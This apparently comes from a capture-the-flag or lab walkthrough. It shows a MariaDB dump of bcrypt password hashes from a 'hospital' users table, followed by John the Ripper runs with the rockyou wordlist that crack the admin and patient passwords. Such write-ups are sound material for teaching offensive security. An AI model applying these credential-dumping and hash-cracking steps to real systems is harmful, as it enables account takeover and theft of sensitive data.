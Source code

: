 ```bash
MariaDB [hospital]> show tables;
show tables;
+--------------------+
| Tables_in_hospital |
+--------------------+
| users              |
+--------------------+
1 row in set (0.000 sec)
```

```bash
MariaDB [hospital]> select * from users;
select * from users;
+----+----------+--------------------------------------------------------------+---------------------+
| id | username | password                                                     | created_at          |
+----+----------+--------------------------------------------------------------+---------------------+
|  1 | admin    | $2y$10$caGIEbf9DBF7ddlByqCkrexkt0cPseJJ5FiVO1cnhG.3NLrxcjMh2 | 2023-09-21 14:46:04 |
|  2 | patient  | $2y$10$a.lNstD7JdiNYxEepKf1/OZ5EM5wngYrf.m5RxXCgSud7MVU6/tgO | 2023-09-21 15:35:11 |
|  3 | kali     | $2y$10$UINIXmeTUZmfmBkYh2kpdu5gLYj7qRAsfZyRuFMb07PaOH1ejq8ye | 2024-08-20 12:24:59 |
+----+----------+--------------------------------------------------------------+---------------------+
3 rows in set (0.001 sec)
```

```bash
$ cat admin.hash    
$2y$10$caGIEbf9DBF7ddlByqCkrexkt0cPseJJ5FiVO1cnhG.3NLrxcjMh2
```

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt admin.hash          
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
123456           (?)     
1g 0:00:00:00 DONE (2024-08-20 04:38) 2.127g/s 153.1p/s 153.1c/s 153.1C/s 123456..666666
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

```bash
$ cat patient.hash 
$2y$10$a.lNstD7JdiNYxEepKf1/OZ5EM5wngYrf.m5RxXCgSud7MVU6/tgO
```

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt patient.hash                     
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
patient          (?)     
1g 0:00:05:51 DONE (2024-08-20 04:47) 0.002845g/s 152.0p/s 152.0c/s 152.0C/s redbutterfly..paolos
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
